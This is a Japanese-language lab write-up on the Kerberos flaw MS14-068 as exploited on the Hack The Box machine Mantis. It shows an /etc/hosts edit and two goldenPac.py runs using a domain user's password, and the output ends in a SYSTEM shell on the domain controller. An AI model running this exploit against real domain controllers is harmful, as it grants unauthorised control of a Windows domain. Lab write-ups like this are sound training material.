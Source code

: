 # Kerberos の脆弱性により特権が昇格される（MS-14-068）

- [Microsoft公式](https://docs.microsoft.com/ja-jp/security-updates/securitybulletins/2014/ms14-068)
- [HTB-Mantisで参考にした動画](https://www.youtube.com/watch?v=kMRhTZalAzU)

-> 説明とか、詳細はMicrosoftの上の公式ページで全て解説されてる

## 実際にやってみた（HTB-Mantis）
### まずは/etc/hostsを編集

```terminal
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.52     htb.local mantis.htb.local

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

**mantis.htb.local**はenumしたとき**ldapServiceName**として出てきた、または**nmap**のスキャン（ポート389,3168）で **「dnsHostName」** として表示されたもの。

<- この**mantis.htb.local**は **”ドメインコントローラ”** の名前だ！

### 実行
（ビックリマークは`\`でエスケープしてる）

```
┌──(kali㉿kali)-[~]
└─$ goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file NBmNmoxP.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service aDay on mantis.htb.local.....
[*] Starting service aDay.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```



**２回目やった時は/etc/hostsを編集せずとも次のように実行したらできた**

```
┌──(kali㉿kali)-[~]
└─$ goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on 10.10.10.52.....
[*] Found writable share ADMIN$
[*] Uploading file uIsjoVpX.exe
[*] Opening SVCManager on 10.10.10.52.....
[*] Creating service ecLN on 10.10.10.52.....
[*] Starting service ecLN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

最後の**mantis.htb.local**はドメインコントローラ名。
